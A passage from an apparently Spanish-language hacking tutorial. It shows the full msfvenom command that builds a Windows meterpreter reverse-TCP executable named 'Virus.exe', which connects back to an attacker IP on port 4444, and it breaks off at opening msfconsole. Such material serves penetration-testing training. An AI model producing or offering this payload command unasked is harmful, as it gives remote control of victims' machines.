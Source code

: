 Ahora, tendremos que crear un **Virus** con la extensión `.exe` que es la extensión que usa Windows para sus archivos ejecutables. Por lo tanto se usará el comando `msfvenom`. Este es el comando completo que tendrás que usar:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.26 lport=4444 -f exe -a x86 > Virus.exe
```
<p align="center"><img width="600" src="/images/Captura-Virus.png"></p>

La opción `-p windows/meterpreter/reverse_tcp` especifica el **payload** que se utilizará con `msfvenom` para generar **payload malicioso**. Después `lhost=miIp` es donde especificamos la **dirección IP** de la **máquina atacante**, seguido por `lport=4444` que es donde definimos el puerto que va a utilizar el archivo para que la **máquina víctima se conecte a la máquina atacante**. A continuación especificamos el formato del archivo que se va a crear con la opción `-f` seguido por `exe`.  Después, definimos la arquitectura que va a usar el archivo con la opción `-a` seguido por `x86`. Finalmente, con el símbolo `>` damos nombre al archivo que se va a crear en este caso `Virus.exe`.

> [!IMPORTANT]
> Es muy importante que el archivo funcione por el puerto 4444. Este puerto se usa comúnmente para la comunicación entre la máquina atacante y la máquina víctima en muchas configuraciones de exploits y herramientas de hacking. Si no se especifica el puerto 4444 correctamente al generar el payload, es posible que la conexión entre las máquinas no se establezca correctamente.

# 3. Ejecución del Metasploit Framework
A continuación, describiremos el payload que hemos generado y explicaremos cómo puede ser utilizado para llevar a cabo un ataque exitoso.

## 3.1. Abririendo la consola de MetaSploit Framework
Con el comando `msfconsole` abriremos la consola de **MetaSploit Framework**.

```bash
msfconsole
```